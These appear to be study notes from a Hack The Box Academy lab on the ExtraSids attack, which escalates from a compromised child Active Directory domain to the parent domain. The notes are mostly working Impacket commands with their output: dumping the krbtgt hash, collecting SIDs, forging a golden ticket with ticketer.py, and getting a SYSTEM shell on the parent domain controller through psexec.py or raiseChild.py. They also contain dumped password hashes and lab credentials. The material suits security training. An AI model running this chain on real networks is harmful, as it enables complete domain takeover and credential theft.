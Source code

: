 #### ExtraSids Attack

This assumes that a `Child` domain has been compromised. Now we want to compromise the `Parent` domain.

As with the Windows, we need the following information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

The KRBTGT hash for the child domain:

```bash
secretsdump.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.240' -just-dc-user LOGISTICS/krbtgt

9d765b482771505cbe97411065964d5f
```

The SID for the child domain

```bash
lookupsid.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.240' | grep "Domain SID"
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
```

The name of a target user in the child domain (does not need to exist!) - `hacker`

The FQDN of the child domain - We know this `logistics.inlanefreight.local`

The SID of the Enterprise Admins group of the root domain

```bash
lookupsid.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.5' | grep -B12 "Enterprise Admins"
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
#### Gathered information

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`
#### Construct the Golden Ticket

```bash
ticketer.py -nthash <krbtgt_NTLM_hash> -domain <Our_current_child_domain> -domain-sid <sid_of_child_domain> -extra-sid <sid_of_enterprise_admins_group> hacker
```

Example:

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

Setting the KRB5CCNAME Environment Variable:

```bash
export KRB5CCNAME=hacker.ccache
```

Verify:

```bash
klist
Ticket cache: FILE:hacker.ccache
Default principal: hacker@LOGISTICS.INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
02/06/2025 14:42:19  02/04/2035 14:42:19  krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL@LOGISTICS.INLANEFREIGHT.LOCAL
```

Log into the `Parent` DC:

```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
### raiseChild.py

All of the above can be done with this:

```bash
raiseChild.py -target-exec <parent_dc_ip> '<child_domain>/<domain_admin>:<password>'
```

Example:

```bash
raiseChild.py -target-exec 172.16.5.5 'LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm:HTB_@cademy_stdnt_admin!'
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file vBDTpaXs.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service fYRf on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service fYRf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```